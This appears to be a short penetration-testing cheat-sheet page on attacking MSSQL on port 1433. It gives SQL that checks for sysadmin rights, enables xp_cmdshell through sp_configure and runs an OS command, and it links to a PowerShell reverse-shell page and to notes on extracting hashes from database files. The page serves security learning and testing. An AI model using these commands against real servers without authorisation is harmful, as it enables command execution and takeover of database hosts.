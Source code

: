 # 1433 - MSSQL

## Connect to MSSQL from Kali

{% content-ref url="../../tools/tools/mssqlclient.py-impacket.md" %}
[mssqlclient.py-impacket.md](../../tools/tools/mssqlclient.py-impacket.md)
{% endcontent-ref %}

## MSSQL for PrivEsc

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
          1

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax (note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}

{% content-ref url="../../collections/reverse-shell/powershell.md" %}
[powershell.md](../../collections/reverse-shell/powershell.md)
{% endcontent-ref %}

## MSSQL System Databases

Documentation: [https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions](https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions)

To restore backups (.bak) or read database files (.mdf and .ldf) offline:&#x20;

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
* [https://rastating.github.io/from-lfi-to-sql-database-backup/](https://rastating.github.io/from-lfi-to-sql-database-backup/)
